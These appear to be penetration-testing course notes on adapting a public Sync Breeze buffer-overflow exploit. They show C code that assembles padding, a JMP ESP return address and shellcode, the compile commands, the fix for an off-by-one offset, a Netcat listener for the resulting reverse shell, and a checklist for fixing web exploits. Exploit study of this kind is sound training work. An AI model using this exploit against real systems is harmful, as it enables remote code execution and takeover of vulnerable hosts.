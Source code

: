     char *buffer = malloc(buffer_length);
    memset(buffer, 0x00, buffer_length);
    strcpy(buffer, request_one);
    strcat(buffer, content_length_string);
    strcat(buffer, request_two);
    strcat(buffer, padding);
    strcat(buffer, retn);
    strcat(buffer, shellcode);
    strcat(buffer, request_three);

    SendRequest(buffer, strlen(buffer));
}

int main() {

    EvilRequest();
    return 0;
}
``
4. Compile exploit code using mingw-w64
	- i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
5. Now that we have an updated, clean-compiling exploit, we can test it out. We'll return to Immuntiy Debugger with Sync Breeze attached and press Ctrl+G, follow the JMP ESP address at 0x10090c83, and press F2 to set a breakpoint on it.
6. sudo wine syncbreeze_exploit.exe
7. offset is off by one byte

## Changing the Overflow Buffer

```
int initial_buffer_size = 780;
char *padding = malloc(initial_buffer_size);
```
- 780 = bytes of offset required to overwire the return address on the stack and take control of the EIP register
```
memset(padding, 0x41, initial_buffer_size);
```
- initializing the buffer
- 0x41 = hex of the "A" character in ASCII
```
memset(padding + initial_buffer_size - 1, 0x00, 1);
```
- sets the last byte to NULL
```
 int initial_buffer_size = 781;
    char *padding = malloc(initial_buffer_size);
    memset(padding, 0x41, initial_buffer_size);
    memset(padding + initial_buffer_size - 1, 0x00, 1);
```
- adding +1 to buffer size to account for 780 "A"s and one NULL byte to terminate string

1. compile code
	- i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
2. set up Netcat on 443
3. make sure sync breeze service is running on tgt
4. exploit
	- wine syncbreeze_exploit.exe
# Fixing Web Exploits
- Does it initiate an HTTP or HTTPS connection?
- Does it access a specific web application path or route?
- Does the exploit leverage a pre-authentication vulnerability?
- If not, how does the exploit authenticate to the web application?
- How are the GET or POST requests crafted to trigger and exploit the vulnerability? Is there any HTTP method involved?
